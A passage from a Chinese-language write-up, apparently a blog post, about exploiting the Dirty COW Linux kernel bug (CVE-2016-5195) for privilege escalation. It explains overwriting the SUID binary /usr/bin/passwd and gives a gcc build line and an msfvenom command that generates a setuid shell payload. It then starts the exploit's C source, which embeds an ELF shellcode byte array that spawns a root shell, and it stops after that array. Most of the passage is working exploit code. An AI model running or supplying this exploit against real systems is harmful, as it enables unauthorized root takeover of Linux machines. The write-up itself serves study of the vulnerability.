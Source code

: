 ```C
}
```



crypt() 为非标准库函数，编译的时候需要加上 `-lcrypt` 参数

```
gcc dirty.c -o dirty -static -lpthread -lcrypt
```



#### 二、SUID 提权

既然有了任意文件读写，那么我们可以选择一些具有特殊权限的文件（SUID/SGID，即被设定好其执行用户（组）权限的一些文件，如 `/usr/bin/passwd`），将其改写为我们构造好的特定代码，我们在执行时就能完成提权

笔者这里选择改写 `/usr/bin/passwd` 以完成提权，因为这个程序有着 root 的执行权限

在这里笔者选择使用 `msfvenom` 这一个工具构造 payload，如下：

```
msfvenom -p linux/x64/exec PrependSetuid=True -f elf | xxd -i
```



exp 如下：

```C
/**
 * 
 * CVE-2016-5195
 * dirty C-O-W
 * poc by arttnba3
 * 2021.4.14
 *  
*/

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

struct stat dst_st, fk_st;
void * map;
char *fake_content;

unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x95, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xb2, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x48, 0xb8, 0x2f, 0x62,
  0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x99, 0x50, 0x54, 0x5f, 0x52, 0x5e,
  0x6a, 0x3b, 0x58, 0x0f, 0x05
};
unsigned int sc_len = 149;
```